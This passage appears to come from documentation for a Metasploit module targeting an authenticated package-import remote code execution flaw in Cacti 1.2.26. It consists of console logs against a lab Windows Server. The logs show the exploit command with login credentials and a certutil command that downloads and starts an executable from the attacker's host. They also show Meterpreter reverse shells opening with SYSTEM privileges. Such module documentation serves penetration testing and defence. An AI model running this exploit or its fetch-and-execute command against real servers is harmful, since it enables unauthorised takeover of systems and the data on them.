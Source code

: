 ```
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 192.168.101.124
[+] Deleted C:/Apache24/htdocs/cacti/resource/WPo04nIf.php
[*] Meterpreter session 2 opened (192.168.101.1:4444 -> 192.168.101.124:54654) at 2024-05-22 15:28:56 +0200

meterpreter > getuid
Server username: SYSTEM
meterpreter > sysinfo
Computer    : DC02
OS          : Windows NT DC02 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
```

- Target 2 (Windows Command)
```
msf exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=192.168.101.124 lhost=192.168.101.1 username=msfuser password=12345678

[*] Command to run on remote host: certutil -urlcache -f http://192.168.101.1:8080/Qy-qOX10kZIXJGk3Q336Lg %TEMP%\cpOhjtfIddh.exe & start /B %TEMP%\cpOhjtfIddh.exe
[*] Fetch handler listening on 192.168.101.1:8080
[*] HTTP server started
[*] Adding resource /Qy-qOX10kZIXJGk3Q336Lg
[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Client 192.168.101.124 requested /Qy-qOX10kZIXJGk3Q336Lg
[*] Sending payload to 192.168.101.124 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.101.124 requested /Qy-qOX10kZIXJGk3Q336Lg
[*] Sending payload to 192.168.101.124 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.101.124
[+] Deleted C:/Apache24/htdocs/cacti/resource/9PxU2R.php
[*] Meterpreter session 4 opened (192.168.101.1:4444 -> 192.168.101.124:54669) at 2024-05-22 15:30:20 +0200
[!] This exploit may require manual cleanup of 'C:/Apache24/htdocs/cacti/resource/cpOhjtfIddh' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC02
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 9
Meterpreter     : x64/windows
```

